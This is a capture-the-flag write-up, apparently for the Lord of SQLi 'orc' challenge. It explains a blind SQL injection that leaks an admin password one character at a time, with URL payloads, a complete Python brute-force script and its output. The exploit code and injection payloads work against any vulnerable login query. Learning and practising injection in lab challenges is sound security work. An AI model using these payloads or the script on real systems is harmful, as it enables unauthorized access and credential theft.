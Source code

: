 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 4
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/3fb3ba7d-5c3a-40cc-8b3a-8dcd16ebe014)

We are provided with the SQL query:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='{$_GET[pw]}'
```

The code performs two conditional checks:

1. `if($result['id'])`: It checks if the statement is `True`. If yes, it prints the following message: `Hello admin`
2. `if(($result['pw']) && ($result['pw'] == $_GET['pw']))`: It then checks if the `pw` that is provided is correct. If yes, it prints the flag.


In order to print out the flag, we need to first know the password. For that we have to perform a Blind SQL Injection.

## Blind SQL Injection

First we have to reveal the length of the flag.

### Retrieving the password length

If we provide the following URI parameter:

```
?pw=' OR id='admin' AND length(pw)=[length] -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND length(pw)=[length] -- -'
```

When the length of `pw` for `id='admin'` is equal to the `[length]` that we provide, the query will result into `True`. This will cause the `Hello admin` message to be printed. We can brute force the length and use the message as an indicator of correct brute force value.

### Leaking the password

Next, we can leak the password byte by byte using the `substr()` function.

#### `substr()`

![4](https://github.com/Kunull/Write-ups/assets/110326359/e332b358-2371-4f97-a9be-e1e5afce6f68)

If we provide the following URI parameter:

```
?pw=' OR id='admin' AND substr(pw, [index], 1)='[character]' -- -
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='' OR id='admin' AND substr(pw, [index], 1)='[character]' -- -'
```

If for `id='admin'`, the character of the `pw` at `[index]` is the same as the `[character]` that we provide, the query will result into `True`. This will cause the `Hello admin` message to be printed. We can brute force the password by changing the `[index]` and the `[character]`.
### Script

We can automate the entire process using a script.

```py title="orc_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'jkvees84mr4jq3nallg9rum7he'}
url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"
password_length = 0

for x in range(0, 10):
  payload = f"' OR id='admin' AND length(pw)={x} -- -"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"' OR id='admin' AND substr(pw, {index}, 1)='{char}' -- -"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "Hello admin" in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\orc_script.py

[!] Payload: ?pw=' OR id='admin' AND length(pw)=8 -- -
[!] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+length%28pw%29%3D8+--+-
[!] Password length: 8

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 1, 1)='0' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+1%2C+1%29%3D%270%27+--+-
[+] Character at index 1: 0

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 2, 1)='9' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+2%2C+1%29%3D%279%27+--+-
[+] Character at index 2: 9

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 3, 1)='5' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+3%2C+1%29%3D%275%27+--+-
[+] Character at index 3: 5

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 4, 1)='a' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+4%2C+1%29%3D%27a%27+--+-
[+] Character at index 4: a

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 5, 1)='9' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+5%2C+1%29%3D%279%27+--+-
[+] Character at index 5: 9

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 6, 1)='8' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+6%2C+1%29%3D%278%27+--+-
[+] Character at index 6: 8

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 7, 1)='5' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+7%2C+1%29%3D%275%27+--+-
[+] Character at index 7: 5

[+] Payload: ?pw=' OR id='admin' AND substr(pw, 8, 1)='2' -- -
[+] Payload (URL encoded): ?pw=%27+OR+id%3D%27admin%27+AND+substr%28pw%2C+8%2C+1%29%3D%272%27+--+-
[+] Character at index 8: 2

[!] Extracted password: 095a9852
[!] Final payload: ?pw=095a9852
```

Now, we can provide password URI parameter:

```
?pw=095a9852
```

The resultant query becomes:

```sql
SELECT id FROM prob_orc WHERE id='admin' AND pw='095a9852'
```

![8](https://github.com/Kunull/Write-ups/assets/110326359/ef9ae213-af29-4450-8d2e-34d02565e928)
